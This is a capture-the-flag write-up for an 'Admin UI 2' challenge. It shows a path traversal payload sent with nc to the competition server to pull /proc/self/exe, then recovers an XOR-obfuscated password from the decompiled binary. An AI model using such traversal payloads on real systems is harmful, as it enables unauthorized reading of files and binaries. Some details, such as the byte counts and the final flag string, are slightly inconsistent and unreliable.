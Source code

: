 # Admin UI 2

After getting the first password `CTF{I_luv_buggy_sOFtware}` we can now enter it to get
```
! Two factor authentication required !
Please enter secret secondary password:
```

Also, the clallenge encourages us to try to find the binary.
First, I tried inspecting all the interestring `path traversal files` from [Path Traversal Cheat Sheet](https://www.gracefulsecurity.com/path-traversal-cheat-sheet-linux/), but none of the gave me an answer about the name of the binary.

Instead, there are two was of getting this to work

1. `../../../../../../proc/1/cmdline` to get the `./main` cmd.
2. `../../../../../../proc/self/exe` to get the executable.

One of the methods to get it is `python -c "print '2\n../../../../../../proc/self/exe\n'" | nc mngmnt-iface.ctfcompetition.com 1337 > main.bin`

And strip all the useless strings the come before.

We open the binary and see the following code inside `sub_41414446`:
```
len = strlen(input)
for (int i = 0; i < len; i++) 
{
	input[i] ^= 0xC7;
}

if ( len == 35 )
{
	*(_QWORD *)s = 0x98A8B093BC819384LL;
	*(_QWORD *)&s[8] = 0x83B5A8B094B4A697LL;
	*(_QWORD *)&s[16] = 0xB5A2B3B3A28598BDLL;
	*(_QWORD *)&s[24] = 0x98F698A9F3AFB398LL;
	*(_WORD *)&s[32] = 0xF8ACu;
	s[34] = 0xBAu;
}
if ( s ) GRANT ACCESS
```

Notice that it allows us to access their "shell" if the password length is `35` and it doesnt actually check with the hardcoded one, but it doesn't mean we can't see what it is.
Let's extract the values of s `[ '84', '93', '81', 'BC', '93', 'B0', 'A8', '98', '97', 'A6', 'B4', '94', 'B0', 'A8', 'B5', '83', 'BD', '98', '85', 'A2', 'B3', 'B3', 'A2', 'B5', '98', 'B3', 'AF', 'F3', 'A9', '98', 'F6', '98', 'AC', 'F8']`.

Since it was trying to prepare the password for comparing by XOR-ing the input, let's apply the inverse operation that XOR's the stored passsword

```
>>> l = ['84', '93', '81', 'BC', '93', 'B0', 'A8', '98', '97', 'A6', 'B4', '94', 'B0', 'A8', 'B5', '83', 'BD', '98', '85', 'A2', 'B3', 'B3', 'A2', 'B5', '98', 'B3', 'AF', 'F3', 'A9', '98', 'F6', '98', 'AC', 'F8', 'BA']
>>> ''.join([chr(0xC7^int(x,16)) for x in l])
```
And we get the flag `CTF{Two_PasSworDz_Better_th4n_1_k?`

